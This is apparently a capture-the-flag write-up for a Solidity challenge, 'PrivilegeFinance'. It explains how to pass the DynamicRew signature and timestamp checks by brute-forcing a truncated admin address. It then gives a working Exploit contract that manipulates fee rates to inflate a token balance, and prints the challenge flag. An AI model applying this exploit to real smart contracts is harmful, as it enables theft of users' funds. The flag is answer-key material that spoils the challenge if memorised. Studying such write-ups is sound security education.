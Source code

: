 The goal of this challenge is to raise the token balance of `msg.sender` to at least `10000000`.

The token can be transferred by calling the `_transfer` function in the `transfer` function.

```
uint256 _fee = amount * transferRate / 100;
_transfer(address(this), referrers[msg.sender], _fee * ReferrerFees / transferRate);
```

The `ReferrerFees` and `transferRate` can be set with the following `DynamicRew` function.

```solidity
    function DynamicRew(address _msgsender, uint256 _blocktimestamp, uint256 _ReferrerFees, uint256 _transferRate)
        public
        returns (address)
    {
        require(_blocktimestamp < 1677729610, "Time mismatch");
        require(_transferRate <= 50 && _transferRate <= 50);
        bytes32 _hash = keccak256(abi.encodePacked(_msgsender, rewmax, _blocktimestamp));
        address a = ecrecover(_hash, v, r, s);
        require(a == admin && time < _blocktimestamp, "time or banker");
        ReferrerFees = _ReferrerFees;
        transferRate = _transferRate;
        return a;
    }
```

The `_msgsender` and `_blocktimestamp` need to be set appropriately to satisfy the above conditions. The `_blocktimestamp` can only be either `time+1` or `time+2`, since `uint256 public time = 1677729607;`. Also, there seems to be a `_msgsender`, whose address is defined by `string msgsender = "0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E0";`. However, `0x71fA690CCCDC285E3Cb6d5291EA935cfdfE4E0` is 39 bytes, one byte short.

Assuming that this address is missing one byte, brute-forcing the correct address reveals that it is `0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E053`.

Therefore, execute the following exploit and the `setflag` function.

```solidity
contract Exploit {
    function exploit(address instanceAddress) public {
        PrivilegeFinance finance = PrivilegeFinance(instanceAddress);
        uint256 amount = 1000;
        finance.DynamicRew(0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E053, 1677729609, 20000000 / amount * 100, 50);
        finance.Airdrop();
        finance.deposit(address(0), 1, msg.sender);
        finance.transfer(finance.admin(), 999);
    }
}
```

Flag: `0x4c7d8e17af758ca2054f6c1c6ea4535387352aeb`

### LenderPool
